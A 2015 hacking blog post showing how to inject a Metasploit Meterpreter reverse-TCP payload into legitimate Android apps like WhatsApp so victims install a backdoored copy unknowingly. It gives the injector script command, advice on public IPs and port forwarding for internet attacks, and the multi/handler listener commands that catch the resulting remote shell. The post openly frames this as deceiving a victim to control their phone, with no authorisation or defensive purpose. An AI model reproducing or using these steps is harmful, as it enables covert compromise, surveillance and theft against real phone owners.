 ```yaml
---
date: 2015-12-11 21:00:19+00:00
slug: embed-metasploit-payload-in-apk-easily
title: Embed a Metasploit Payload in an Original .apk File | Part 1 - The Easy Way
wordpress_id: 13
categories:
- Android
- Hacking
- Metasploit
tags:
- Android
- Hacking
- Kali
- Metasploit
- Meterpreter
---
```


Hi Fellas! I’m sure most of you, or at least those who have set a foot in the kingdom of hacking, have heard of Metasploit. Don’t be disappointed if you haven’t, because you’re in the right track.

From Wikipedia,

> The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing and IDS signature development. Its best-known sub-project is the open source Metasploit Framework, a tool for developing and executing exploit code against a remote target machine. Other important sub-projects include the Opcode Database, shellcode archive and related research.


In a more informal language, it’s a tool which we can use to perform various kinds of hacks against a machine. The flagship payload which comes with the Metasploit Framework is the ‘Meterpreter’, which also has an Android version that comes as an .apk file. In case you are wondering what a payload is, it’s a program we can install on a victim’s system to compromise it. Normally we have to install the Meterpreter payload in the victims phone by any means (usually involving Social Engineering), and when the victim runs the application, we would get a direct connection to that phone remotely and we can use it to wreak havoc on it.

But since the payload app doesn’t look very legit, takes up only a few kBs, and doesn’t show anything when clicked on, the victim will probably uninstall it right away, or worse, wouldn’t install it at all. So we have to solve that problem.

Here’s where this tutorial comes in. I’m gonna show you how to take any .apk file, be it WhatsApp or Amazon or SnapChat, and embed the Meterpreter payload in that apk. To the victim it will look and behave exactly as the original app, so he will use it regularly without any doubt, letting you do anything you want to his phone.


### Pre-requisites

Just to be clear,  In this tutorial the operating system used is Kali Linux, which is a de facto standard OS for Penetration Testing (read, hacking). You should also install the latest version of ‘ApkTool’ and some libraries for the scripts to work properly.

To install the required libraries, enter this command at the console:
```
apt-get install lib32stdc++6 lib32ncurses5 lib32z1
```

And to get the latest version of ApkTool, head over to [this site](http://ibotpeaches.github.io/Apktool/install/) and follow the installation instructions.


### Step 1

First of all grab the original apk from any of the numerous websites available. Just do a google search “app_name apk download” and Google will come up with a lot of results. Save that apk in any folder, in this tutorial I will use the Root folder and a WhatApp.apk as example.

### Step 2

Download the Ruby script from [this link](https://github.com/SkullTech/apk-payload-injector) and save it in the same folder as that of the original apk.

### Step 3

Open a terminal, and type the following command:
```
ruby apk-embed-payload.rb WhatsApp.apk -p android/meterpreter/reverse_tcp LHOST=192.168.0.104 LPORT=4895
```

In this example I’ve used `192.168.0.104` as the Local IP address, i.e. your IP address and `4895` as the port on your Computer through which the Meterpreter payload will connect back to you. Make sure to change it to the appropriate values, especially the IP, the LPORT can be set to any reasonable port no.

_NOTE_ – If you are going to conduct this attack over the internet, be sure to put your public IP, not your local IP, in the LHOST option. You also may need to forward the port you’re using for this attack to work properly.

Once you run the command, if you are lucky, the script will do everything by itself and complete the whole process. But more than often it cannot determine to which Activity of the app it should bind the payload to, so it asks you to select it. In that case, leave the terminal open with the script at the prompt, and browse to /root/original.

Then open the `AndroidManifest.xml` file using any text editor you like and look for an <activity> tag which contains both the texts ‘.MAIN’ and ‘.LAUNCHER’. When you find that tag, look for the ‘android:name’ attribute of that tag and from there, note the name of that Activity.

At the prompt of the Ruby script, enter the number corresponding to the Activity name you had noted previously and press Enter.

This is the hardest step of all, so I’m posting some screenshots to make your life easier.

![Screenshot from 2015-12-12 01-44-01](https://techkernel.org/wp-content/uploads/2015/12/screenshot-from-2015-12-12-01-44-01.png)
![Screenshot from 2015-12-12 01-43-27](https://techkernel.org/wp-content/uploads/2015/12/screenshot-from-2015-12-12-01-43-27.png)


### PROFIT?!

If you did everything correctly, you should now get a apk file in your root directory with the name ‘backdoored_WhatsApp.apk’. It will install and run just like the original app.

As for the listener, you should use multi/handler and set the corresponding options accordingly. Just run the following commands.

```   
msfconsole
use multi/handler
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST 192.168.0.104
set LPORT 4895
exploit
```

Now wait for the victim to run the app, when he does it, you will get a Meterpreter prompt in the terminal!

![Screenshot from 2015-12-18 14:32:55](https://techkernel.org/wp-content/uploads/2015/12/screenshot-from-2015-12-18-143255.png)


### Note:

You must have noticed I haven’t explained anything, rather asked you to blindly follow. As none of us wants to be a script-kiddie, we will learn how to do this manually in the next article. To be honest, I didn’t know how to successfully implement this until I found this script. After I saw that this script does what it promises, I learned the process by reverse-engineering it. Let us set that story apart for another article.

If you face any problem, don’t forget to mention it in the comments. I’ll try to help you in any way I can.

### Credits:

I found the script from the comments section of a thread in NullByte, so thanks to the guy who shared it, I’m sorry I don’t remember which thread it was or who the guy was. And credit of making this script goes to timwr and Jack64.
